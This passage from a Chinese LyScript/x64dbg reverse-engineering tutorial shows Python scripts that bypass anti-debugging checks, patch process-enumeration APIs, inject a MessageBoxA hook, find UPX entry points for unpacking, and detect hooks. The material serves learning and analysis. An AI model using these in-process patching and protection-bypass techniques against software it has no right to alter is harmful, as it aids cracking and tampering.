当PEB入口地址得到之后，只需要检查`PEB+2`的位置标志，通过`write_memory_byte()`函数向此处写出0即可绕过反调试，从而让程序可以被正常调试。
```Python
from LyScript32 import MyDebug

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()
    dbg.connect()

    # 通过PEB找到调试标志位
    peb = dbg.get_peb_address(dbg.get_process_id())
    print("调试标志地址: 0x{:x}".format(peb+2))

    flag = dbg.read_memory_byte(peb+2)
    print("调试标志位: {}".format(flag))

    # 将调试标志设置为0即可过掉反调试
    nop_debug = dbg.write_memory_byte(peb+2,0)
    print("反调试绕过状态: {}".format(nop_debug))
    
    dbg.close()
```
这里笔者继续拓展一个新知识点，如何实现绕过进程枚举功能，病毒会利用进程枚举函数`Process32FirstW`及`Process32NextW`枚举所有运行的进程以确认是否有调试器在运行，我们可以在特定的函数开头处写入`SUB EAX,EAX RET`指令让其无法调用枚举函数从而失效，写入汇编指令集需要依赖于`set_assemble_opcde`函数，只需要向函数内传入内存地址，则自动替换地址处的汇编指令集；
```Python
from LyScript32 import MyDebug

# 得到所需要的机器码
def set_assemble_opcde(dbg,address):
    # 得到第一条长度
    opcode_size = dbg.assemble_code_size("sub eax,eax")

    # 写出汇编指令
    dbg.assemble_at(address, "sub eax,eax")
    dbg.assemble_at(address + opcode_size , "ret")

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()
    dbg.connect()

    # 得到函数所在内存地址
    process32first = dbg.get_module_from_function("kernel32","Process32FirstW")
    process32next = dbg.get_module_from_function("kernel32","Process32NextW")
    print("process32first = 0x{:x} | process32next = 0x{:x}".format(process32first,process32next))

    # 替换函数位置为sub eax,eax ret
    set_assemble_opcde(dbg, process32first)
    set_assemble_opcde(dbg, process32next)

    dbg.close()
```

当上述代码被运行后，则`Process32FirstW`与`Process32FirstW`函数位置将被依次写出返回指令，从而让进程枚举失效，输出效果图如下所示；



### 4.5 探索钩子劫持技术

钩子劫持技术是计算机编程中的一种技术，它们可以让开发者拦截系统函数或应用程序函数的调用，并在函数调用前或调用后执行自定义代码，钩子劫持技术通常用于病毒和恶意软件，也可以让开发者扩展或修改系统函数的功能，从而提高软件的性能和增加新功能。

#### 4.5.1 探索反汇编写出函数原理

钩子劫持技术的实现一般需要在对端内存中通过`create_alloc()`函数准备一块空间，并通过`assemble_write_memory()`函数，将一段汇编代码转为机器码，并循环写出自定义指令集到堆中，函数`write_opcode_from_assemble()`就是我们自己实现的，该函数传入一个汇编指令列表，自动转为机器码并写出到堆内，函数的核心代码如下所示。
```Python
def write_opcode_from_assemble(dbg_ptr,asm_list):
    addr_count = 0
    addr = dbg_ptr.create_alloc(1024)
    if addr != 0:
        for index in asm_list:
            asm_size = dbg_ptr.assemble_code_size(index)
            if asm_size != 0:
                # print("长度: {}".format(asm_size))
                write = dbg_ptr.assemble_write_memory(addr + addr_count, index)
                if write == True:
                    addr_count = addr_count + asm_size
                else:
                    dbg_ptr.delete_alloc(addr)
                    return 0
            else:
                dbg_ptr.delete_alloc(addr)
                return 0
    else:
        return 0
    return addr
```

我们以写出一段`MessageBox`弹窗代码为例，首先通过`get_module_from_function`函数获取到位于`user32.dll`模块内`MessageBoxA`的函数地址，该函数的栈传参数为五个，其中前四个为`push`压栈，最后一个则是调用`call`，为了构建这个指令集需要在`asm_list`写出所需参数列表及调用函数地址，并通过`set_local_protect`设置可执行属性，通过`set_register`将当前EIP设置到写出位置，并执行程序。
```Python
from LyScript32 import MyDebug

def write_opcode_from_assemble(dbg_ptr,asm_list):
              pass

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    # 得到messagebox内存地址
    msg_ptr = dbg.get_module_from_function("user32.dll","MessageBoxA")
    call = "call {}".format(str(hex(msg_ptr)))
    print("函数地址: {}".format(call))

    # 写出指令集到内存
    asm_list = ['push 0','push 0','push 0','push 0',call]
    write_addr = write_opcode_from_assemble(dbg,asm_list)
    print("写出地址: {}".format(hex(write_addr)))

    # 设置执行属性
    dbg.set_local_protect(write_addr,32,1024)

    # 将EIP设置到指令集位置
    dbg.set_register("eip",write_addr)

    # 执行代码
    dbg.set_debug("Run")
    dbg.close()
```

运行上述代码片段，则首先会在`0x3130000`的位置处写出调用`MessageBox`的指令集。



当执行`set_debug("Run")`则会执行如下图所示代码，这些代码则是经过填充的，由于此处仅仅只是一个演示案例，所以不具备任何实战性，读者在该案例中学会指令的替换是如何实现的即可；



#### 4.5.2 实现Hook改写MsgBox弹窗

在之前的内容中笔者通过封装`write_opcode_from_assemble`函数实现了自定义写出内存的功能，本章将继续探索Hook劫持技术的实现原理，如下案例中我们先来实现一个`Hook`通用模板，在代码中实现中转机制，代码中以`MessageBoxA`函数为案例实现修改汇编参数传递。
```Python
from LyScript32 import MyDebug

# 传入汇编列表,写出到内存
def assemble(dbg, address=0, asm_list=[]):
    asm_len_count = 0
    for index in range(0,len(asm_list)):
        # 写出到内存
        dbg.assemble_at(address, asm_list[index])
        # print("地址: {} --> 长度计数器: {} --> 写出: {}".format(hex(address + asm_len_count), asm_len_count,asm_list[index]))
        # 得到asm长度
        asm_len_count = dbg.assemble_code_size(asm_list[index])
        # 地址每次递增
        address = address + asm_len_count

if __name__ == "__main__":
    dbg = MyDebug()
    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    # 找到MessageBoxA
    messagebox_address = dbg.get_module_from_function("user32.dll","MessageBoxA")
    print("MessageBoxA内存地址 = {}".format(hex(messagebox_address)))

    # 分配空间
    HookMem = dbg.create_alloc(1024)
    print("自定义内存空间: {}".format(hex(HookMem)))

    # 写出MessageBoxA内存地址,跳转地址
    asm = [
        f"push {hex(HookMem)}",
        "ret"
    ]

    # 将列表中的汇编指令写出到内存
    assemble(dbg,messagebox_address,asm)

    dbg.close()
```
如上代码中，通过找到`user32.dll`库中的`MessageBoxA`函数，并返回其内存地址。接着，程序会分配`1024`字节大小的自定义内存空间，获取刚刚写入的内存地址，并将其写入到`MessageBoxA`函数的内存地址中，代码运行后读者可看到如下图所示的提示信息；

> 提示：解释一下为什么需要增加`asm`列表中的指令集，此处的指令集作用只有一个那就是跳转，当原始`MessageBoxA`函数被调用时，则此处通过`push;ret`的组合跳转到我们自定义的`HookMem`内存空间中，而此内存空间中后期则需要填充我们自己的弹窗代码片段，所以需要提前通过`HookMem = dbg.create_alloc(1024)`构建出这段内存区域；



由于`MessageBox`弹窗需要使用两个变量这两个变量依次代表标题和内容，所以我们通过`create_alloc`函数在对端内存中分配两块堆空间，并依次将弹窗字符串通过`write_memory_byte`写出到内存中，至此弹窗内容也算填充好了，其中`txt`代表标题，而`box`则代表内容；
```Python
    # 定义两个变量,存放字符串
    MsgBoxAddr = dbg.create_alloc(512)
    MsgTextAddr = dbg.create_alloc(512)

    # 填充字符串内容
    # lyshark 标题
    txt = [0x6c, 0x79, 0x73, 0x68, 0x61, 0x72, 0x6b]
    # 内容 lyshark.com
    box = [0x6C, 0x79, 0x73, 0x68, 0x61, 0x72, 0x6B, 0x2E, 0x63, 0x6F, 0x6D]

    for txt_count in range(0,len(txt)):
        dbg.write_memory_byte(MsgBoxAddr + txt_count, txt[txt_count])

    for box_count in range(0,len(box)):
        dbg.write_memory_byte(MsgTextAddr + box_count, box[box_count])

    print("标题地址: {} 内容: {}".format(hex(MsgBoxAddr),hex(MsgTextAddr)))
```

紧接着，我们需要跳转到`MessageBoxA`函数所在内存中，并提取出该函数调用时的核心汇编指令集，如下图所示则是弹窗的具体实现流程；



而对于一个完整的弹窗来说，只需要提取出核心代码即可不必提取所有指令集，但需要注意的是图中的`call 0x75B20E20`地址需要进行替换，根据系统的不同此处的地址也不会相同，在提取时需要格外注意；
```Python
    # 此处是MessageBox替换后的片段
    PatchCode =\
    [
        "mov edi, edi",
        "push ebp",
        "mov ebp,esp",
        "push -1",
        "push 0",
        "push dword ptr ss:[ebp+0x14]",
        f"push {hex(MsgBoxAddr)}",
        f"push {hex(MsgTextAddr)}",
        "push dword ptr ss:[ebp+0x8]",
        "call 0x75B20E20",
        "pop ebp",
        "ret 0x10"
    ]

    # 写出到自定义内存
    assemble(dbg, HookMem, PatchCode)
```

如上则是替换弹窗的代码解释，将这段代码整合在一起，读者则可实现一段替换弹窗功能的代码，如下弹窗中的消息替换成我们自己的版权信息，此处完整代码实现如下所示；
```Python
from LyScript32 import MyDebug

# 传入汇编列表,写出到内存
def assemble(dbg, address=0, asm_list=[]):
    asm_len_count = 0
    for index in range(0,len(asm_list)):
        # 写出到内存
        dbg.assemble_at(address, asm_list[index])
        # print("地址: {} --> 长度计数器: {} --> 写出: {}".format(hex(address + asm_len_count), asm_len_count,asm_list[index]))
        # 得到asm长度
        asm_len_count = dbg.assemble_code_size(asm_list[index])
        # 地址每次递增
        address = address + asm_len_count

if __name__ == "__main__":
    dbg = MyDebug()
    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    # 找到MessageBoxA
    messagebox_address = dbg.get_module_from_function("user32.dll","MessageBoxA")
    print("MessageBoxA内存地址 = {}".format(hex(messagebox_address)))

    # 分配空间
    HookMem = dbg.create_alloc(1024)
    print("自定义内存空间: {}".format(hex(HookMem)))

    # 写出FindWindowA内存地址,跳转地址
    asm = [
        f"push {hex(HookMem)}",
        "ret"
    ]

    # 将列表中的汇编指令写出到内存
    assemble(dbg,messagebox_address,asm)

    # 定义两个变量,存放字符串
    MsgBoxAddr = dbg.create_alloc(512)
    MsgTextAddr = dbg.create_alloc(512)

    # 填充字符串内容
    # lyshark 标题
    txt = [0x6c, 0x79, 0x73, 0x68, 0x61, 0x72, 0x6b]
    # 内容 lyshark.com
    box = [0x6C, 0x79, 0x73, 0x68, 0x61, 0x72, 0x6B, 0x2E, 0x63, 0x6F, 0x6D]

    for txt_count in range(0,len(txt)):
        dbg.write_memory_byte(MsgBoxAddr + txt_count, txt[txt_count])

    for box_count in range(0,len(box)):
        dbg.write_memory_byte(MsgTextAddr + box_count, box[box_count])

    print("标题地址: {} 内容: {}".format(hex(MsgBoxAddr),hex(MsgTextAddr)))

    # 此处是MessageBox替换后的片段
    PatchCode =\
    [
        "mov edi, edi",
        "push ebp",
        "mov ebp,esp",
        "push -1",
        "push 0",
        "push dword ptr ss:[ebp+0x14]",
        f"push {hex(MsgBoxAddr)}",
        f"push {hex(MsgTextAddr)}",
        "push dword ptr ss:[ebp+0x8]",
        "call 0x75B20E20",
        "pop ebp",
        "ret 0x10"
    ]

    # 写出到自定义内存
    assemble(dbg, HookMem, PatchCode)

    print("地址已被替换,可以运行了.")
    dbg.set_debug("Run")
    dbg.set_debug("Run")

    dbg.close()
```

当如上代码被运行后，则会替换进程内`MessageBoxA`函数为我们自己的地址，运行输出效果如下图所示；



读者可通过`Ctrl+G`并输入`MessageBoxA`跳转到原函数弹窗位置，此时输出的则是一个跳转地址`0x6C0000`该地址则代表我们自己的自定义内存区域，如下图所示；



继续跟进这内存区域，读者可看到我们自己构建的`MessageBoxA`弹窗的核心代码片段，当这段代码被执行结束后则通过`ret`会返回到程序领空，如下图所示；



至此，当用户再次打开弹窗按钮时，则不会提示原始内容，而是提示自定义弹窗，如下图所示；



### 4.6 内存扫描与查壳实现

LyScript 插件中默认提供了多种内存特征扫描函数，每一种扫描函数用法各不相同，在使用扫描函数时应首先搞清楚不同函数之间的差异，本章内容将分别详细介绍每一种内存扫描函数是如何灵活运用，并实现一种内存查壳脚本，可快速定位目标程序加了什么壳以及寻找被加壳程序的入口点。

> 计算机中的壳定义

加壳通常指对可执行文件或者动态链接库等二进制文件进行加密或压缩等处理，以使得这些文件难以被反汇编或破解。通常情况下，加壳会增加二进制文件的大小，并在程序运行时增加一定的开销。加壳技术通常被用于保护软件的知识产权和防止软件被盗版。通过加壳，软件开发者可以使得软件更难被破解和复制，从而保护自己的商业利益。

> 计算机中查壳的原理

软件查壳的实现原理可以分为静态分析和动态分析两种方式。静态分析是指在不运行被加壳程序的情况下，通过对程序的二进制代码进行解析，识别出程序是否被加壳，以及加壳的种类和方法。动态分析是指通过运行被加壳程序，并观察程序运行时的行为，识别程序是否被加壳，以及加壳的种类和方法。

静态分析的实现原理通常包括以下几个步骤：

 - 提取被分析程序的二进制代码；
 - 识别程序的文件格式，并解析文件头等元数据信息；
 - 根据文件格式，从程序代码中提取节区、导入表、导出表等重要信息；
 - 分析程序的代码段，并检查代码中是否存在加壳相关的特征，如代码的执行流程、加密算法等；
 - 根据分析结果，判断程序是否被加壳，以及加壳的种类和方法。

静态分析的优点是分析速度快，不需要运行程序，可以有效地识别出程序中的加壳。但是它也有一些缺点，例如无法识别动态加载的加壳、易受代码混淆和反调试等技术的影响。

动态分析的实现原理通常包括以下几个步骤：

 - 启动被分析程序，并在程序运行期间捕捉程序的行为；
 - 跟踪程序的执行流程，并分析程序的内存、寄存器、堆栈等状态信息；
 - 检查程序的内存中是否存在加壳相关的特征，如解密函数、加壳程序等；
 - 根据分析结果，判断程序是否被加壳，以及加壳的种类和方法。

动态分析的优点是可以识别动态加载的加壳，并且可以有效地避免代码混淆和反调试等技术的影响。但是它也有一些缺点，例如需要运行被分析程序，因此可能会影响程序的性能和稳定性，并且可能会被加壳程序的反调试技术所绕过。

本例中将采用`scan_memory_all()`函数对特定内存进行动态扫描，该函数用来扫描当前进程内EIP所指向位置处整个内存段中符合条件的特征，如果找到了则返回一个列表，如果没有找到则返回False，该函数与`scan_memory_one()`函数原理是一致的，唯一的不同是`all`以列表形式返回所有匹配到的行，`one`则只返回匹配到的第一条记录，这两个函数都支持`??`模糊匹配。

如果载入一个程序，默认停留在系统领空，则调用该函数你所能得到的特征记录只能是系统领空当前dll内的特征集。



例如在程序被载入后，其`EIP`指针默认会停留在`ntdll.dll`模块上，需要注意的是，函数`scan_memory_one`用于扫描并返回第一段符合条件的内存，函数`scan_memory_all`则用于扫描并输出当前所有符合条件的内存地址；
```Python
>>> from LyScript32 import MyDebug
>>>
>>> dbg = MyDebug()
>>> conn = dbg.connect()
>>>
>>> ref_one = dbg.scan_memory_one("55 8b ec")
>>> ref_one
1995793090
>>>
>>> ref_all = dbg.scan_memory_all("55 8b ec")
>>> ref_all
[1995793090, 1995793298, 1995793455, 1995793799, 1995794214]
```
而有时，我们需要指定扫描某个模块，例如扫描进程内的`msvcr120.dll`模块里面的特征，则此时读者可调用`scan_memory_any()`函数，该函数无需切换到模块入口处即可实现扫描特定模块内的特征，不过该函数只能返回找到的第一条记录，且需要传入扫描起始位置以及扫描长度，不过得到这些参数并不难。
```Python
from LyScript32 import MyDebug

if __name__ == "__main__":
    dbg = MyDebug()
    conn = dbg.connect()

    # 得到进程模块
    local_module = dbg.get_all_module()[0]

    # 得到模块参数
    module_base = local_module.get("base")
    module_size = local_module.get("size")
    print("基地址: {} 长度: {} 结束地址: {}".format(hex(module_base),hex(module_size),hex(module_base+module_size)))

    # 扫描内存
    ref = dbg.scan_memory_any(module_base,module_size,"55 8b ec ??")
    if ref != False:
        print("找到内存: {}".format(hex(ref)))
    dbg.close()
```
运行如上所示的代码片段，则默认会扫描进程内第一个模块也就是主程序模块内的，特征`55 8b ec ??`指令集，当找到后会输出如下图所示的提示信息；



如上代码中的内存扫描方法如果能被读者理解，那么查壳这个功能就变得很简单了，市面上的查壳软件PEID等基本都是采用特征码定位的方式，所以我们想要实现查壳以及检测编译器特征可以采用特征码扫描法，只需要将上述代码更改一下，即可实现查壳功能。
```Python
from LyScript32 import MyDebug

# 查壳功能
def Scan(dbg, string):
    # 得到进程模块
    local_module = dbg.get_all_module()[0]

    # 得到模块参数
    module_base = local_module.get("base")
    module_size = local_module.get("size")
    # print("基地址: {} 长度: {} 结束地址: {}".format(hex(module_base),hex(module_size),hex(module_base+module_size)))

    # 扫描内存
    ref = dbg.scan_memory_any(module_base,module_size,string)
    if ref != False:
        return True
    return False

if __name__ == "__main__":
    dbg = MyDebug()
    conn = dbg.connect()

    # 存储特征码
    signs = [
        {"key": "Microsoft Visual C++ 2013", "value": "e8 ?? ?? ?? ?? e9 ?? ?? ?? ?? 55 8b ec"},
        {"key": "UPX 3.96w", "value": "60 be ?? ?? ?? ?? 8d be 00 90 ff ff 57"}
    ]

    for index in signs:
        check = Scan(dbg, index.get("value"))
        if check == True:
            print("编译特征： {}".format(index.get("key")))

    dbg.close()
```

当运行上述代码片段，则将会寻找特定指令集，如果找到则说明采用的是特定的加壳程序或特定编译器编译生成的，输出效果图如下所示；



通过运用`scan_memory_one()`函数，读者何以很容易的实现对特定内存区域的寻找，以32为代码为例，通过`get_register`函数获取到当前EIP的内存地址，并通过`read_memory_word`读入前四个字节的数据，当前四个字节的数据为`0xBE60`此时说明是UPX壳的开头，通过`scan_memory_one("83 EC ?? E9")`匹配特征码，当找到后顺势在此处`set_breakpoint(patternAddr)`下一个断点，程序通过不断地运行，最终即可定位到程序真正的入口地址；

```Python
from LyScript32 import MyDebug

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()

    # 连接到调试器
    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    # 检测套接字是否还在
    ref = dbg.is_connect()
    print("是否在连接: ", ref)

    is_64 = False

    # 判断是否时64位数
    if is_64 == False:
        currentIP = dbg.get_register("eip")

        if dbg.read_memory_word(currentIP) != int(0xBE60):
            print("[-] 可能不是UPX")
            dbg.close()

        patternAddr = dbg.scan_memory_one("83 EC ?? E9")
        print("匹配到的地址: {}".format(hex(patternAddr)))

        dbg.set_breakpoint(patternAddr)
        dbg.set_debug("Run")
        dbg.set_debug("Wait")
        dbg.delete_breakpoint(patternAddr)

        dbg.set_debug("StepOver")
        dbg.set_debug("StepOver")
        print("[+] 程序OEP = 0x{:x}".format(dbg.get_register("eip")))

    else:
        currentIP = dbg.get_register("rip")

        if dbg.read_memory_dword(currentIP) != int(0x55575653):
            print("[-] 可能不是UPX")
            dbg.close()

        patternAddr = dbg.scan_memory_one("48 83 EC ?? E9")
        print("匹配到的地址: {}".format(hex(patternAddr)))

        dbg.set_breakpoint(patternAddr)
        dbg.set_debug("Run")
        dbg.set_debug("Wait")
        dbg.delete_breakpoint(patternAddr)

        dbg.set_debug("StepOver")
        dbg.set_debug("StepOver")
        print("[+] 程序OEP = 0x{:x}".format(dbg.get_register("eip")))

    dbg.close()
```

运行上述代码片段，则会看到如下图所示的输出效果，并以自动跳转到了程序的真正入口位置`0x40153e`，此时用户只需要脱壳转存即可；



### 4.7 应用层的钩子扫描

所谓的应用层钩子（Application-level hooks）是一种编程技术，它允许应用程序通过在特定事件发生时执行特定代码来自定义或扩展其行为。这些事件可以是用户交互，系统事件，或者其他应用程序内部的事件。应用层钩子是在应用程序中添加自定义代码的一种灵活的方式。它们可以用于许多不同的用途，如安全审计、性能监视、访问控制和行为修改等。应用层钩子通常在应用程序的运行时被调用，可以执行一些预定义的操作或触发一些自定义代码。

通常情况下，第三方应用在需要扩展一个程序功能是都会采用挂钩子的方式实现，而由于内存数据被修改后磁盘数据依然是原始数据，这就给扫描这些钩子提供了便利，具体来说钩子扫描的原理是通过读取磁盘中的PE文件中的反汇编代码，并与内存中的代码作比较，当两者发生差异是则可以证明此处被挂了钩子。

本节内容中，笔者将通过一个案例并配合`Capstone`引擎来实现这个功能，之所以选用该引擎是因为该引擎支持`Python`包，可以非常容易的与`LyScript`插件互动，此外`Capstone`引擎在逆向工程、漏洞分析、恶意代码分析等领域有广泛的应用，著名反汇编调试器`IDA`则是使用了该引擎工作的。

 - Capstone引擎的主要特点包括：

 - 支持多种指令集：支持x86、ARM、MIPS、PowerPC等多种指令集，且能够在不同的平台上运行。
 - 轻量级高效：采用C语言编写，代码简洁高效，反汇编速度快。
 - 易于使用：提供了易于使用的API和文档，支持Python、Ruby、Java等多种编程语言。
 - 可定制性：提供了多种可配置选项，能够满足不同用户的需求。

Capstone的安装非常容易，只需要执行`pip install capstone`即可完成，使用Capstone反汇编时读者只需要传入一个PE文件路径，并通过`md.disasm(HexCode, 0)`即可实现反汇编任务；

代码首先使用`pefile`库读取PE文件，获取文件的`ImageBase`，以及名为`".text"`的节表的`VirtualAddress、Misc_VirtualSize`和`PointerToRawData`等信息。接下来，代码计算了`".text"`节表的起始地址`StartVA`和结束地址`StopVA`，然后使用文件指针读取文件中`".text"`节表的原始数据，并使用`capstone`库进行反汇编。反汇编结果以字典形式存储，包括反汇编地址和反汇编指令。最后，函数返回了包含所有反汇编指令的`opcode_list`列表。

```Python
from capstone import *
import pefile

def Disassembly(FilePath):
    opcode_list = []
    pe = pefile.PE(FilePath)
    ImageBase = pe.OPTIONAL_HEADER.ImageBase

    for item in pe.sections:
        if str(item.Name.decode('UTF-8').strip(b'\x00'.decode())) == ".text":
            # print("虚拟地址: 0x%.8X 虚拟大小: 0x%.8X" %(item.VirtualAddress,item.Misc_VirtualSize))
            VirtualAddress = item.VirtualAddress
            VirtualSize = item.Misc_VirtualSize
            ActualOffset = item.PointerToRawData
    StartVA = ImageBase + VirtualAddress
    StopVA = ImageBase + VirtualAddress + VirtualSize
    with open(FilePath,"rb") as fp:
        fp.seek(ActualOffset)
        HexCode = fp.read(VirtualSize)

    md = Cs(CS_ARCH_X86, CS_MODE_32)
    for item in md.disasm(HexCode, 0):
        addr = hex(int(StartVA) + item.address)
        dic = {"Addr": str(addr) , "OpCode": item.mnemonic + " " + item.op_str}
        print("[+] 反汇编地址: {} 参数: {}".format(addr,dic))
        opcode_list.append(dic)
    return opcode_list

if __name__ == "__main__":
    Disassembly("d://lyshark.exe")
```

当读者运行上方代码片段时，则可输出`lyshark.exe`程序内`text`节所有反汇编代码片段，输出效果如下图所示；



接着我们需要读入内存中的PE文件机器码并通过`Capstone`引擎反汇编为汇编指令集，如下`get_memory_disassembly`函数则是实现内存反汇编的具体实现细节。

此案例中通过`read_memory_byte`读入内存完整数据，并使用`md.disasm`依次反汇编，并最终将结果存储到`dasm_memory_dict`字典中保存。

```Python
import binascii,os,sys
import pefile
from capstone import *
from LyScript32 import MyDebug

# 得到内存反汇编代码
def get_memory_disassembly(address,offset,len):
    # 反汇编列表
    dasm_memory_dict = []

    # 内存列表
    ref_memory_list = bytearray()

    # 读取数据
    for index in range(offset,len):
        char = dbg.read_memory_byte(address + index)
        ref_memory_list.append(char)

    # 执行反汇编
    md = Cs(CS_ARCH_X86,CS_MODE_32)
    for item in md.disasm(ref_memory_list,0x1):
        addr = int(pe_base) + item.address
        dasm_memory_dict.append({"address": str(addr), "opcode": item.mnemonic + " " + item.op_str})
    return dasm_memory_dict

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    pe_base = dbg.get_local_base()
    pe_size = dbg.get_local_size()

    print("模块基地址: {}".format(hex(pe_base)))
    print("模块大小: {}".format(hex(pe_size)))

    # 得到内存反汇编代码
    dasm_memory_list = get_memory_disassembly(pe_base,0,pe_size)
    print(dasm_memory_list)

    dbg.close()
```

执行如上所示代码，则可输出当前程序内存中的反汇编指令集，并以字典的方式输出，效果图如下所示；



这两项功能实现之后，那么实现内存与磁盘之间的比对工作将变得很容易实现，如下代码中首先通过`get_memory_disassembly`获取到内存反汇编指令，然后通过`get_file_disassembly`获取磁盘反汇编指令，并将两者`dasm_memory_list[index] != dasm_file_list[index]`最比较，以此来判断特定内存是否被挂钩；
```Python
import binascii,os,sys
import pefile
from capstone import *
from LyScript32 import MyDebug

# 得到内存反汇编代码
def get_memory_disassembly(address,offset,len):
    # 反汇编列表
    dasm_memory_dict = []

    # 内存列表
    ref_memory_list = bytearray()

    # 读取数据
    for index in range(offset,len):
        char = dbg.read_memory_byte(address + index)
        ref_memory_list.append(char)

    # 执行反汇编
    md = Cs(CS_ARCH_X86,CS_MODE_32)
    for item in md.disasm(ref_memory_list,0x1):
        addr = int(pe_base) + item.address
        dic = {"address": str(addr), "opcode": item.mnemonic + " " + item.op_str}
        dasm_memory_dict.append(dic)
    return dasm_memory_dict

# 反汇编文件中的机器码
def get_file_disassembly(path):
    opcode_list = []
    pe = pefile.PE(path)
    ImageBase = pe.OPTIONAL_HEADER.ImageBase

    for item in pe.sections:
        if str(item.Name.decode('UTF-8').strip(b'\x00'.decode())) == ".text":
            # print("虚拟地址: 0x%.8X 虚拟大小: 0x%.8X" %(item.VirtualAddress,item.Misc_VirtualSize))
            VirtualAddress = item.VirtualAddress
            VirtualSize = item.Misc_VirtualSize
            ActualOffset = item.PointerToRawData
    StartVA = ImageBase + VirtualAddress
    StopVA = ImageBase + VirtualAddress + VirtualSize
    with open(path,"rb") as fp:
        fp.seek(ActualOffset)
        HexCode = fp.read(VirtualSize)

    md = Cs(CS_ARCH_X86, CS_MODE_32)
    for item in md.disasm(HexCode, 0):
        addr = hex(int(StartVA) + item.address)
        dic = {"address": str(addr) , "opcode": item.mnemonic + " " + item.op_str}
        # print("{}".format(dic))
        opcode_list.append(dic)
    return opcode_list

if __name__ == "__main__":
    dbg = MyDebug()
    dbg.connect()

    pe_base = dbg.get_local_base()
    pe_size = dbg.get_local_size()

    print("模块基地址: {}".format(hex(pe_base)))
    print("模块大小: {}".format(hex(pe_size)))

    # 得到内存反汇编代码
    dasm_memory_list = get_memory_disassembly(pe_base,0,pe_size)
    dasm_file_list = get_file_disassembly("d://lyshark.exe")

    # 循环对比内存与文件中的机器码
    for index in range(0,len(dasm_file_list)):
        if dasm_memory_list[index] != dasm_file_list[index]:
            print("地址: {:8} --> 内存反汇编: {:32} --> 磁盘反汇编: {:32}".
                  format(dasm_memory_list[index].get("address"),dasm_memory_list[index].get("opcode"),dasm_file_list[index].get("opcode")))
    dbg.close()
```

运行上方代码片段，耐性等待一段时间，则可输出内存与磁盘反汇编指令集列表，输出效果图如下所示；



### 4.8 学会扫描应用堆栈

堆栈是计算机中的两种重要数据结构 堆（Heap）和栈（Stack）它们在计算机程序中起着关键作用，在内存中堆区（用于动态内存分配）和栈区（用于存储函数调用、局部变量等临时数据），进程在运行时会使用堆栈进行参数传递，这些参数包括局部变量，临时空间以及函数切换时所需要的栈帧等。

 - 栈（Stack）是一种遵循后进先出（LIFO）原则的线性数据结构。它主要用于存储和管理程序中的临时数据，如函数调用和局部变量。栈的主要操作包括压栈（添加元素）和弹栈（移除元素）。
 - 堆（Heap）是一种树形数据结构，通常用于实现优先队列。堆中的每个节点都有一个键值（key），并满足特定性质。最常见的堆类型是二叉堆（包括最大堆和最小堆）。堆在计算机程序中的应用包括堆排序算法和内存管理等。

而针对栈地址的分析在漏洞挖掘中尤为重要，栈溢出（Stack Overflow）是一种计算机程序中的运行时错误，通常发生在缓冲区（buffer）中。缓冲区是一段内存空间，用于临时存储数据。当程序试图向栈中写入过多数据时，可能导致栈溢出，从而破坏其他内存区域或导致程序崩溃，严重的则可能会导致黑客控制EIP指针，而执行恶意代码。

栈溢出的原因主要有以下几点：

 - 递归调用过深：当函数递归调用自身的层次过深时，可能导致栈溢出。这是因为每次函数调用都会在栈中分配内存，用于存储函数的局部变量和返回地址。如果递归层数太多，可能导致栈空间不足，从而引发栈溢出。

 - 局部变量占用过多栈空间：如果函数中的局部变量（尤其是数组和结构体）占用过多栈空间，可能导致栈溢出。这种情况下，可以考虑将部分局部变量移到堆内存中，以减小栈空间的压力。

 - 缓冲区溢出：当程序向缓冲区写入的数据超过其分配的空间时，可能发生缓冲区溢出。这种溢出可能导致栈空间中的其他数据被破坏，从而引发栈溢出。

LyScript 插件中提供了针对堆栈的操作函数，对于堆的开辟与释放通常可使用`create_alloc()`及`delete_alloc()`在之前的文章中我们已经使用了堆创建函数，本章我们将重点学习针对栈的操作函数，栈操作函数有三种，其中`push_stack`用于入栈，`pop_stack`用于出栈，而最有用的还属`peek_stack`函数，该函数可用于检查指定堆栈位置处的内存参数，利用这个特性就可以实现，对堆栈地址的检测，或对堆栈的扫描等。

> 读者注意：由于peek_stack命令传入的堆栈下标位置默认从0开始，而输出的结果则一个十进制有符号长整数，一般而言有符号数会出现复数的情形，读者在使用时应更具自己的需求自行转换。

而针对有符号与无符号数的转换也很容易实现，`long_to_ulong`函数用于将有符号整数转换为无符号整数（long_to_ulong）而与之对应的`ulong_to_long`函数，则用于将无符号整数转换为有符号整数（ulong_to_long）。这些函数都接受一个整数参数（inter）和一个布尔参数（is_64）。当 `is_64` 为 `False` 时，函数处理32位整数；当 `is_64` 为 `True` 时，函数处理64位整数。

 - 有符号整数转无符号数（long_to_ulong）：通过将输入整数与相应位数的最大值执行按位与操作`（&）`来实现转换。对于32位整数，使用 `(1 << 32) - 1` 计算最大值；对于64位整数，使用 `(1 << 64) - 1` 计算最大值。

 - 无符号整数转有符号数（ulong_to_long）：通过计算输入整数与相应位数的最高位的差值来实现转换。首先，它使用按位与操作`（&）`来计算输入整数与最高位之间的关系。对于32位整数，使用 `(1 << 31) - 1 和 (1 << 31)`；对于64位整数，使用` (1 << 63) - 1 `和` (1 << 63)`。然后，将这两个结果相减以获得有符号整数。

```Python
from LyScript32 import MyDebug

# 有符号整数转无符号数
def long_to_ulong(inter,is_64 = False):
    if is_64 == False:
        return inter & ((1 << 32) - 1)
    else:
        return inter & ((1 << 64) - 1)

# 无符号整数转有符号数
def ulong_to_long(inter,is_64 = False):
    if is_64 == False:
        return (inter & ((1 << 31) - 1)) - (inter & (1 << 31))
    else:
        return (inter & ((1 << 63) - 1)) - (inter & (1 << 63))

if __name__ == "__main__":
    dbg = MyDebug()

    connect_flag = dbg.connect()
    print("连接状态: {}".format(connect_flag))

    for index in range(0,10):

        # 默认返回有符号数
        stack_address = dbg.peek_stack(index)

        # 使用转换
        print("默认有符号数: {:15} --> 转为无符号数: {:15} --> 转为有符号数: {:15}".
              format(stack_address, long_to_ulong(stack_address),ulong_to_long(long_to_ulong(stack_address))))

    dbg.close()
```

如上代码中我们在当前堆栈中向下扫描10条，并通过转换函数以此输出该堆栈信息的有符号与无符号形式，这段代码输出效果如下图所示；



